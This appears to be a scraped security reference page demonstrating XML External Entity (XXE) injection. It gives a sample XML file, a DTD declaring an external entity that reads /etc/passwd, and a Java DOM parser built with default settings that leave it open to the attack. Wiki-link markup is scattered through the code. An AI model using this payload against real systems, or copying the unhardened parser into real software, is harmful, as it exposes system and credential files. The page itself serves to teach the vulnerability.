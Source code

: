 Sample XML:
<![[_content/dictionary#D|DOCTYPE]] contacts [[_content/dictionary#S|SYSTEM]] "contacts.dtd">
<contacts>
 <contact>
  <firstname>John</firstname>
  <lastname>&xxe;</lastname>
 </contact>
</contacts>

Sample [[_content/dictionary#D|DTD]]:
<![[_content/dictionary#E|ELEMENT]] contacts (contact*)>
<!ELEMENT contact (firstname,lastname)>
<!ELEMENT firstname (#[[_content/dictionary#P|PCDATA]])>
<!ELEMENT lastname [[_content/dictionary#A|ANY]]>
<![[_content/dictionary#E|ENTITY]] xxe [[_content/dictionary#S|SYSTEM]] "/etc/passwd">

###### [[_content/dictionary#X|XXE]] using [[_content/dictionary#D|DOM]]¶
import java.io.IOException;
import javax.xml.parsers.[[_content/dictionary#D|DocumentBuilder]];
import javax.xml.parsers.[[_content/dictionary#D|DocumentBuilderFactory]];
import javax.xml.parsers.[[_content/dictionary#P|ParserConfigurationException]];
import org.xml.sax.[[_content/dictionary#I|InputSource]];
import org.w3c.dom.Document;
import org.w3c.dom.Element;
import org.w3c.dom.Node;
import org.w3c.dom.[[_content/dictionary#N|NodeList]];

public class parseDocument {
 public static void main(String[] args) {
  try {
   [[_content/dictionary#D|DocumentBuilderFactory]] factory = DocumentBuilderFactory.newInstance();
   [[_content/dictionary#D|DocumentBuilder]] builder = factory.newDocumentBuilder();
   Document doc = builder.parse(new [[_content/dictionary#I|InputSource]]("contacts.xml"));
   [[_content/dictionary#N|NodeList]] nodeList = doc.getElementsByTagName("contact");
   for (int s = 0; s < nodeList.getLength(); s++) {
     Node firstNode = nodeList.item(s);
     if (firstNode.getNodeType() == Node.ELEMENT_NODE) {
       Element firstElement = (Element) firstNode;
       NodeList firstNameElementList = firstElement.getElementsByTagName("firstname");
       Element firstNameElement = (Element) firstNameElementList.item(0);
       NodeList firstName = firstNameElement.getChildNodes();
       System.out.println("First Name: "  + ((Node) firstName.item(0)).getNodeValue());
       NodeList lastNameElementList = firstElement.getElementsByTagName("lastname");
       Element lastNameElement = (Element) lastNameElementList.item(0);
       NodeList lastName = lastNameElement.getChildNodes();
       System.out.println("Last Name: " + ((Node) lastName.item(0)).getNodeValue());
     }
    }
  } catch (Exception e) {
    e.printStackTrace();
  }
 }
}
